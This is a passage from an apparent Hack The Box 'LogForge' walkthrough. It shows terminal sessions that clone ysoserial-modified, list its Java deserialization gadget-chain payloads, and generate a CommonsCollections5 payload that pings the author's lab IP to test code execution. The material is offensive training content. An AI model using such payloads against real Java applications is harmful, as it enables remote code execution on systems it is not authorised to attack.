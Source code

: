 ```sh
┌──(root💀kali)-[~/htb/logforge]
└─# git clone https://github.com/pimps/ysoserial-modified.git
Cloning into 'ysoserial-modified'...
remote: Enumerating objects: 324, done.
remote: Total 324 (delta 0), reused 0 (delta 0), pack-reused 324
Receiving objects: 100% (324/324), 84.22 MiB | 15.72 MiB/s, done.
Resolving deltas: 100% (94/94), done.

┌──(root💀kali)-[~/htb/logforge]
└─# cd ysoserial-modified/target

┌──(root💀kali)-[~/htb/logforge/ysoserial-modified/target]
└─# java -jar ysoserial-modified.jar -h
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] [terminal type: cmd / bash / powershell / none] '[command to execute]'
   ex: java -jar ysoserial-[version]-all.jar CommonsCollections5 bash 'touch /tmp/ysoserial'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
                CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections5 [commons-collections:commons-collections:3.1]
<SNIP>
```

YSOSerial is pretty comprehensive, HackTricks has some good information [here](https://book.hacktricks.xyz/pentesting-web/deserialization) about the concepts of de-serialization and using YSOSerial to exploit this method of attack. From the tools description:

```text
ysoserial is a collection of utilities and property-oriented programming 
"gadget chains" discovered in common java libraries that can, under the
right conditions, exploit Java applications performing unsafe
de-serialization of objects.
```

The key point here is it takes advantage of common code that may already exist on the target application to allow us to execute our own code.

## Java De-serialization attacks

Let's create a simple payload that will ping me from the box:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar ysoserial-modified/target/ysoserial-modified.jar CommonsCollections5 bash 'ping -c 4 10.10.14.12' > pencer.ser
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections5 (file:/root/htb/logforge/ysoserial-modified/target/ysoserial-modified.jar) to field javax.management.BadAttributeValueExpException.val
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections5
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```
